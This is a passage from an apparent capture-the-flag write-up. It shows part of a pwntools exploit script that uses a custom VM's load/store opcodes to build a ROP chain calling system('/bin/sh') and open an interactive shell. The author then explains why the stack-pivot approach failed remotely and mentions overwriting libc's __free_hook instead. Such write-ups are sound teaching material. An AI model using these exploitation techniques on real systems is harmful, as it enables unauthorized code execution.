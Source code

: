 ```python
code += push(0x6e69622f)
code += gstore(x+2)

# POINTER_BINSH
code += gload(x-4) + gload(x-3) + gstore(x-1) + push(-280+8) + add() + gstore(x-2)
# POP_RDI
code += gload(x-6) + gload(x-5) + gstore(x-3) + push(147) + add() + gstore(x-4)
# SYSTEM
code += gload(x+10) + gload(x+11) + gstore(x+1) + push(188941) + add() + gstore(x)
# RET
code += gload(x-6) + gload(x-5) + gstore(x-5) + push(148) + add() + gstore(x-6)
# make small nglobals so we dont crash when reading data
code += pop()
code += push(0x0)
# win :3
code += halt()

p.send(b"100000000000")
# p.send(str(len(code)).encode())
if not args.REMOTE and not args.SOLVE:
    gdb.attach(p, """
               break *vm_exec+175
               continue
               """)
pause()
p.sendline(code)


p.interactive()
```

Ok if you didn't realize yet, this script sucks.

Many hardcoded addresses which are variable depending on the environment I'm running it.

Although this script worked in the docker, it failed to work on remote.

This is the inherent problem of pivoting to the stack, as the stack is non-deterministic over the most minor differences (i.e. kernel).

I was also told that I was allocating more memory than the RAM could handle which caused it to fail.

```python
# i was evidently lazy to find a smaller nicer number that would be MMAP'ed
p.send(b"100000000000")
```


## I forgot LIBC 2.31 still had `__free_hook` so I did FSOP for nothing

Ultimately, a more reliable approach is just directly overwrite things in the LIBC.
